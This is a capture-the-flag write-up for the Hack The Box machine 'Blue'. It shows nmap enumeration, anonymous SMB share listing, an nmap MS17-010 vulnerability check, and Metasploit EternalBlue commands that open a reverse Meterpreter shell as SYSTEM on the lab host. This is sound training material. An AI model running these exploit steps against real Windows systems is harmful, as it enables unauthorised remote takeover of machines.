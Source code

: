 ```yaml
---
title: "Blue"
tags:
  - Easy
  - Windows
  - EternalBlue
---
```


|  | Difficulty |  |  IP Address   |  | Room Link |  |
|:-| :--------: |--|:------------: |--| :--------:|--|
|  |  Easy |  | 10.10.10.40 |  | [Blue](https://app.hackthebox.com/machines/blue) |  |

---
## Enumeration
### Nmap Scan
Perform an initial scan to enumerate open ports and services:

```shell
nmap -p- --min-rate=1000 -sV 10.10.10.40
```

**Output:**

```
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows
```

### SMB enumeration:

```
smbclient -N -L \\\\10.10.10.40\\
```

**Output:**

```
Sharename       Type      Comment
---------       ----      -------
ADMIN$          Disk      Remote Admin
C$              Disk      Default share
IPC$            IPC       Remote IPC
Share           Disk      
Users           Disk
```  

Shares returned `Access Denied` or default content.

### Vulnerability Check

```
sudo nmap -vv -p 445 --script=smb-vuln* --script-args=unsafe=1 10.10.10.40
```

**Output:**

```
PORT    STATE SERVICE      REASON
445/tcp open  microsoft-ds syn-ack ttl 127

Host script results:
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
```

## EternalBlue Exploitation (MS17-010)
EternalBlue exploits a critical vulnerability in SMBv1, enabling remote code execution with SYSTEM privileges. 

### Exploit Using Metasploit
Execute the EternalBlue exploit module:

```
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 10.10.10.40
set LHOST tun0
set LPORT 443
run
```

![screenshot1](../assets/Blue/screenshot1.png)

Gained a Meterpreter shell as NT AUTHORITY\SYSTEM.

![screenshot1](../assets/Blue/screenshot2.png)

User and root flag are located in haris' and Administrator Desktop respectively.